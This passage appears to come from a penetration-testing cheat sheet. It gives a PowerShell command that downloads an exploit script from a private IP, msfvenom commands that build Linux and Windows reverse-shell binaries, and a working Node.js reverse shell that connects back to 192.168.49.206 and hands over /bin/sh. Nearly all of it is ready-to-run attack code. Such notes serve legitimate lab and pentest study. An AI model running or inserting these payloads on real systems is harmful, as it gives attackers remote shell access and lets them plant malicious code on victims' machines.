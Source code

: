 * [ ] Powershell:

```shell
Invoke-WebRequest -Uri 'http://192.168.49.206/exploit.ps1' -OutFile 'C:\temp\exploit.ps1'
```

### Reverse Shells

#### msfvenom

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f elf -o revshell.elf
msfvenom -p windows/shell/reverse_tcp LHOST=tun0 LPORT=1337 -f exe -o revshell.exe
```

#### nodejs

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(80, "192.168.49.206", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```
